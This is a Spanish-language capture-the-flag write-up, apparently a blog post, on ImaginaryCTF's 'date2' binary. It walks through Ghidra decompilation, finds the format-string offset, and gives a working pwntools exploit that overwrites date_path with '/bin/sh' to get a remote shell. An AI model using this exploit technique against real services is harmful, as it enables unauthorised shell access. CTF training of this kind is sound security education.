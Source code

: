 ```yaml
---
layout: post
title: ImaginaryCTF date2 - GOT overwrite
author: c4rta
date: 2022-07-30
categories: [Explotacion binaria]
tags: [GOT overwrite, format string]
---
```


En este articulo resolveremos un ejercicio de explotacion binaria de la pagina ImaginaryCTF donde tenemos de sobreescribir la direccion de GOT de printf

## Analizando el binario con Ghidra

Este ejercicio es muy similar al enterior del post de GOT overwrite y para practicar esta perfecto, solo que ahora no podemos ver el codigo fuente del binario, asi que lo que nos toca es analizarlo con ghidra

Lo primero que vamos a hacer es meter el binario a Ghidra la cual pueden descargar desde su repo oficial

```
https://github.com/NationalSecurityAgency/ghidra/releases
```
Despues en la seccion llamada ```Symbool tree``` desplegaremos la carpeta de ```functions``` y le damos click en main, como se ve en la imagen

![](/assets/img/imaginaryCTF-date2/ghidra1.png)

Esto nos arrojara del lado derecho de ghidra el codigo que trato de decompilar donde vemos todo esto:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(local_118,0x100,stdin);
  printf(local_118);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Viendo la declaracion de variables en la parte de arriba, osea estas: 

```
long in_FS_OFFSET;
char local_118 [264];
long local_10;
```
Vemos una en particular que se declara como ```char local_118 [264];```, esto es el buffer asi que vamos a renombrar la variable ```local_118``` a ```buffer```, ahora nuestro codigo se ve asi:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char buffer [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Acortanto mas el codigo para mostrar lo que nos interesa queda el codigo asi:

```c
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
```
Esto es sencillo de analizar lo que hace el binario es primeramente con ```puts``` mostrar el mensaje de ```What\'s today\'s date?```, despues con ```fgets(buffer,0x100,stdin);``` recibe un input que se guardara en ```buffer``` donde el valor maximo que podemos guardar es ```0x100```, esto pasandolo de hexadecimal a decimal nos da ```256```, despues hay dos ```puts``` que imprimen unas cadenas (nada relevante), y finalmente la funcion ```system``` manda a llamar a lo que tiene ```date_path```, y si en Ghidra le damos doble click sobre ```date_path``` vemos lo siguiente

![](/assets/img/imaginaryCTF-date2/ghidra2.png)

Aqui ya esta potente la cosa, por que se esta mandando a llamar al binario ```date``` desde la funcion ```system``` y se sabe que se esta llamando el binario date ya que la ruta es ```/usr/bin/date```, asi que lo que vamos a hacer es sobreescribir el valor GOT de ```date_path``` por ```/bin/sh``` y como se esta usando la funcion ```system``` nos debe de ejecutar una sh  

### Calculando el offset el buffer

De igual manera que el ejercicio anterior de GOT tenemos de encontrar el offset del buffer a travez de format string, asi que le pasaremos el binario algunas A y algunos format string ```AAAAAAAA %p %p %p %p %p %p %p %p```, cuando lo ejecutemos nos muestra esto

![](/assets/img/imaginaryCTF-date2/vuln1.png)

Si empezamos a contar desde ```0x7ffff7dfda63``` hasta donde empiezan nuestras "A" que es donde esta seleccionado en la imagen nos da como resultado 6, asi que ese es el offset el buffer

## Ejecutando el exploit

EL exploit usado es similar al del post anterior de GOT, lo que cambia es que nos estamos conectando remotamente a eth007.me.

```python

from pwn import *

context.binary = elf = ELF("./vuln")
r = remote("eth007.me", 42042)
r.sendline(fmtstr_payload(6, writes={elf.sym.date_path: u64(b"/bin/sh\x00")}))
r.interactive()
```
Si lo ejecutamos y listamos el contenido podemos ver la flag

```
[+] Opening connection to eth007.me on port 42069: Done
[*] '/home/omarh/Escritorio/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
no smh you are wrong the date is 
$ ls
flag.txt
```
Eso ha sido todo, gracias por leer ❤

![](/assets/img/imaginaryCTF-date2/waifu.jpg)